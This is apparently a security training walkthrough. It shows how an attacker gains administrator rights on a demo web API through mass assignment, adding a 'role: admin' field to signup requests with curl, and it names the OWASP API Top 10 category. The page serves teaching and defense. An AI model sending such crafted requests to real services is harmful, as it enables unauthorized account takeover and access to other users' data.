

# Sign up as administrator

From our reconnaissance we know how to sign up as a user via the API. Attackers will try to elevate their privileges by testing various common patterns for role management. They obviously don't know what exact implementation sits behind the API, so this is a game of trial-and-error.

First, let's try to add a property `admin: true` to the `/auth/signup` payload.  

```bash
curl -X POST http://<hostname>:<port>/auth/signup -H "Content-Type: application/json" -d "{\"email\":\"test1@gmail.com\",\"password\":\"password123\",\"admin\":\"true\"}"
```

We see that the call succeeds and we can log into the web application with this user, but we don't have any elevated rights.

Now, let's try to add a property `role: "admin"`. 

```bash
curl -X POST http://<hostname>:<port>/auth/signup -H "Content-Type: application/json" -d "{\"email\":\"test2@gmail.com\",\"password\":\"password123\",\"role\":\"admin\"}"
```

Again the call succeeds and we can log into the web application. Now we see an extra menu option in the navigation bar at the top. This option provides access to administrator features, in this case the user management screen where we have access to all users in the system. 



For demo convenience, we've also wrapped this as a function in our DELIVER CLI. 

```bash
deliver igotpower <email> <password>
______ _____ _     _____ _   _ ___________
|  _  \  ___| |   |_   _| | | |  ___| ___ \
| | | | |__ | |     | | | | | | |__ | |_/ /
| | | |  __|| |     | | | | | |  __||    /
| |/ /| |___| |_____| |_\ \_/ / |___| |\ \
|___/ \____/\_____/\___/ \___/\____/\_| \_|


Attacking http://<hostname>:<port>/auth/signup

Administrator added
```

In this example we've seen another occurrence of an [OWASP API top 10](https://owasp.org/www-project-api-security/) vulnerability:

- [API1-2019: Mass Assignment](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa6-mass-assignment.md) which enables us to add extra - undocumented - properties to the payload, elevating our permissions.